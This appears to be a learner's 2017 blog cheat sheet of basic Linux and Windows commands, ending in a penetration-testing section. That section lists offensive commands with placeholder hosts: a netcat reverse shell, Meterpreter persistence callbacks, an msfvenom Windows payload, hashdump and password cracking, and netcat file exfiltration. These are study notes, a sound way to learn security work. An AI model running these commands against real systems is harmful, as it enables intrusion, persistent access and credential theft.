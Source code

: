 ```yaml
---
layout: post
title: "Basics Cheat Sheet"
date: 2017-09-05
---
```

<p>
Here is a formatted list of basic commands. I used these as I was learning how to get my way around and added to the list as I learned new things. Writing them down helped me remember the syntax.
</p>
<h2> Get Help … and other info</h2>
<ul>
	<strong>
		<li><code>C:\&gt; &lt;command&gt; /? </code></li>
		<li><code>root@kl~# &lt;command&gt; -h </code></li>
		<li><code>root@kl~# &lt;command&gt; --help </code></li>
		<li><code>root@kl~# man &lt;command&gt; </code></li>
		<li><code>root@kl~# apropos </code></li>
		<li><code>root@kl~# history </code></li>
		<li><code>root@kl~# hostname</code></li>
		<li><code>root@kl~# sudo </code></li>
		<li><code>root@kl~# whoami </code></li>
	</strong>
			<ul>
				<li>(print current user id and name)</li>	
			</ul>
	<strong>
		<li><code>root@kl~# date </code></li> 
		<li><code>C:\>  chdir </code></li>
	</strong>
			<ul>
				<li>(displays location)</li>
			</ul>
	<strong>
		<li><code>root@kl~# pwd </code></li>
	</strong>
			<ul>
				<li>(displays location)</li>
			</ul>
</ul>

<h2>Processes and Things</h2>
<ul>
	<strong>
		<li><code>root@kl~# jobs </code></li>
	</strong>
			<ul>
				<li>(list cronjobs)</li>
			</ul>
	<strong>
		<li><code>root@kl~# kill </code></li>
	</strong>
			<ul>
				<li>(stop processes)</li>
			</ul>
	<strong>
		<li><code>root@kl~# pkill </code></li>
	</strong>
			<ul>
				<li>(stop processes)</li>
			</ul>
	<strong>	
		<li><code> root@kl~# ps –aef </code></li>
	</strong>
			<ul>
				<li>(list processes status)</li>
			</ul>
	<strong>
		<li><code>C:\ tasklist </code></li>
	</strong>
</ul>

<h2>Files</h2>
<ul>
	<li><code>root@kl~# cp &lt;src&gt; &lt;dst&gt; </code></li>
		<ul>		
			<li>(copy)</li>
		</ul>
	<li><code>C:\> copy  &lt;src&gt; &lt;dst&gt; </code></li>
	<li><code>root@kl~# clear </code></li>
	<li><code>C:\> cls </code></li>
	<li><code>C:\> dir </code></li>
	<li><code>root@kl~# echo &lt;message&gt; </code></li>
		<ul>
			<li>(print to screen)</li>
		</ul>		
	<li><code>root@kl~# find –iname &lt;file&gt; </code></li>
	<li><code>C:\> findstr /i /s &lt;string&gt; *.txt </code></li>
		<ul>
			<li>(like grep for Windows)</li>
		</ul>
	<li><code>root@kl~# file </code></li>
		<ul>
			<li>(determine file type)</li>
		</ul>
	<li><code>C:\> dir \ &lt;file&gt; /b /s </code></li>
	<li><code>root@kl~# grep </code></li>
		<ul>
			<li>(search files for matching text)</li>
		</ul>
	<li><code>root@kl~# gzip </code></li>
		<ul>
			<li>(compress or decompress files)</li>
		</ul>
	<li><code>root@kl~# less </code></li>
		<ul>
			<li>(display output one screen at a time)</li>
		</ul>	
	<li><code>root@kl~# locate </code></li>
	<li><code>root@kl~# ls </code></li>
	<li><code>root@kl~# mkdir </code></li>
		<ul>
			<li>(new directory)</li>
		</ul>	
	<li><code>root@kl~# mv &lt;src&gt; &lt;dst&gt; </code></li>
		<ul>
			<li>(move/rename a file)</li>
		</ul>
	<li><code>C:\>  move &lt;src&gt; &lt;dst&gt; </code></li>
	<li><code>root@kl~# rm </code></li> 
		<ul>
			<li>(remove files)</li>
		</ul>	
	<li><code>C:\> ren </code></li>
		<ul>
			<li>(renames file)</li>
		</ul>		
	<li><code>root@kl~# umask </code></li>
		<ul>
			<li>(users file creation mask)</li>
		</ul>	
	<li><code>root@kl~# uniq </code></li>
		<ul>
			<li>(uniquify files)</li>
		</ul>	
	<li><code>root@kl~# vi/vim </code></li>
		<ul>
			<li>(the best text editor)</li>
		</ul>	
	<li><code>root@kl~# wc </code></li>
		<ul>
			<li>(print byte, word and line counts)</li>
		</ul>	
	<li><code>root@kl~# whereis </code></li>
		<ul>
			<li>(search $path, man pages and source files for program)</li>
		</ul>	
</ul>
		
<h2>Users</h2>
root@kl~# chgrp 
(change group ownership)	
root@kl~# chmod 
(change access permissions) 
root@kl~# chown 
(change file owner and group)
root@kl~# groupadd 
(add a user to a security group)
root@kl~# passwd 
(modify user password)
root@kl~# useradd 
(create new users)
root@kl~# usermod 
(modify user account)
root@kl~# users 
(list logged in users)
Networks
root@kl~# curl (grab webpages)
root@kl~# dig (DNS lookup)
root@kl~# ifconfig
root@kl~# netstat -ano/-plant/-uplant
(networking connections)
root@kl~# nslookup
 (query name servers)
root@kl~# ping
root@kl~# ssh
root@kl~# traceroute
root@kl~# wget 
(get web pages or files)
 
 
Reconnaissance
Discover target’s IP/FQDN domain
nslookup <domain>
nslookup <ip>
Find nameserver for known domain
	root@kl~# dig <domain>
perform a zone transfer to list hosts w/in domain
	root@kl~# dig axfr @<name server> <domain>
determine route to a host
	root@kl~# traceroute <ip>
	C:\> tracert <ip
scan for services and operating system
	root@kl~# nmap –sV –O <ip> 
scan for vulns
	root@kl~# nmap --script=vulns <ip>
Gain and Maintain
establish ssh connection
	root@kl~# ssh <user>@<ip>
remote desktop (rdesktop is port 3389 and vncviewer is 5900)
	rdesktop -u <username> -p <password> <ip>
	vncviewer <ip>
favorites from the msf console
	search <keyword>
	info <module> 
	use <module>
	show options (shows you what to fill in)
	show payloads (shows payloads associated with the exploit you loaded)
	background (use to background sessions)
	pwd vs lpwd & cd vs lcd
	sessions –i <#>  (to interact with sessions)
	run persistence –h 
	run persistence –A –r <your ip> -p <port> -i 10 (call back every 10 seconds if connection is lost)
	hashdump
add a route in msf
	route add <victim subnet> <subnet mask> <session#>
	route print
make a msfvenom payload for windows executable
	root@kl~# msfvenom –p <payload> lhost=<ip> lport=<port> -f exe –i 2 > <file>.exe
	root@kl~# msfvenom –l encoders (for list of encoders)
	set up a listener in metasploit
		use exploit/multi/handler
		set payload
		set ExitOnSession false
		exploit –j (run as a job)
netcat backdoor
	root@kl~# nc –l –p <port> (on launch platform)
	C:\> start nc <launch ip> <port> -e cmd.exe
Escalate and Propagate
get passwords using meterpreter or shell (/etc/shadow or hashdump)
use john to crack NT hashes – remember to add special words you find to the password list in john
	root@kl~# ./john <file> --format=nt
transfer files with netcat
	root@kl~#  nc –l –p <port> > <file> (on your platform to listen for file)
	C:\> nc.exe <your ip> <port>  <  <file to transfer>
transfer files with python
	python –m SimpleHTTPServer <port>
